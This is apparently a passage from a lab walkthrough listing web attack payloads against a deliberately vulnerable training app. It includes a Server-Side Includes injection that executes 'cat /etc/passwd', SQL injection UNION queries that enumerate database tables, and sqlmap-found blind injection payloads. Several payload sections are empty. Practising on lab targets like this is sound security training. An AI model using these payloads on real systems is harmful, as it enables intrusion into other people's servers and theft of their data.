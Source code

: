 ### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  Server-Side Includes: 💀
url: /ssii.php
```
<!--#echo var="DATE_LOCAL" -->
<!--#exec cmd="cat /etc/passwd" -->
```


### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  SQL Injection (GET/SEARCH) 💀

```
a%' UNION ALL SELECT table_schema,table_name, null, null, null, null, null from information_schema.tables;--

```
show databases tables using union
```
sqli_1.php?title=man%%27%20UNION%20ALL%20SELECT%20table_schema,table_name,%20null,%20null,%20null,%20null,%20null%20from%20information_schema.tables;--%20sXHO&action=search
```
others query identied using sqlmap
```
Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: title=man%' AND 7892=7892 AND '%'='&action=search

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (query SLEEP)
    Payload: title=man%' OR (SELECT * FROM (SELECT(SLEEP(5)))sqDX) AND '%'='&action=search

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
```